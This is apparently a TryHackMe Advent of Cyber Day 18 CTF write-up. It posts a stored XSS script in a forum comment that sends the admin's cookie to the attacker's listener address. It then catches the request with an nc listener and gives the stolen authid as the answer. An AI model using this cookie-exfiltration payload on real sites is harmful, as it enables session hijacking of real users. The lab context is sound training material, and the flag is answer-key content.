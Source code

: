 # TryHackMe [Advent of Cyber 1](https://tryhackme.com/room/25daysofchristmas) Day 18
### References
* MuirlandOracle. (2020, January 6). MuirlandOracle. MuirlandOracle’s Blog. https://muirlandoracle.co.uk/2020/01/06/tryhackme-christmas-2019-challenge-write-up/
## What is the admin's `authid` cookie value?
1. Sign-up to the forum.
2. Sign-in to the forum.
3. Post a comment with this HTML/JavaScript code:
```html
</p><script>window.location = 'http://<OPENVPN_IP>/page?param=' + document.cookie </script><p>
```
4. Start an `nc` listener and wait until you get a response:
```
$ sudo nc -lvnp 80
$  sudo nc -lvnp 80
[sudo] password for applegamer22: 
Connection from 10.10.109.123:43376
GET /page?param=authid=2564799a4e6689972f6d9e1c7b406f87065cbf65 HTTP/1.1
Host: 10.4.32.172
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/77.0.3844.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://localhost:3000/admin
Accept-Encoding: gzip, deflate
```

**Answer**: `2564799a4e6689972f6d9e1c7b406f87065cbf65`